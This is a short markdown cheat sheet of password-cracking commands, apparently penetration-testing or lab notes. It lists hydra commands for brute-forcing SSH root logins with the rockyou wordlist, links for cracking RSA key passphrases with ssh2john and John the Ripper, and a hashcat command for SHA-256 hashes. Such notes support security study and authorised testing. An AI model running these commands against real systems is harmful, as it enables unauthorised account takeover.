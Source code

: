 # Password Crack Methods

## SSH Bruteforce

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh -s 22022 //-s for different port
```

## RSA Private Key crack using ssh2john

1. Link to download tool

https://github.com/koboi137/john/blob/bionic/ssh2john.py

2. Steps

https://www.hackingarticles.in/beginners-guide-for-john-the-ripper-part-2/

## Hashcat command to crack password

```
hashcat -m 1400 hashes.txt /usr/share/wordlists/rockyou.txt
```
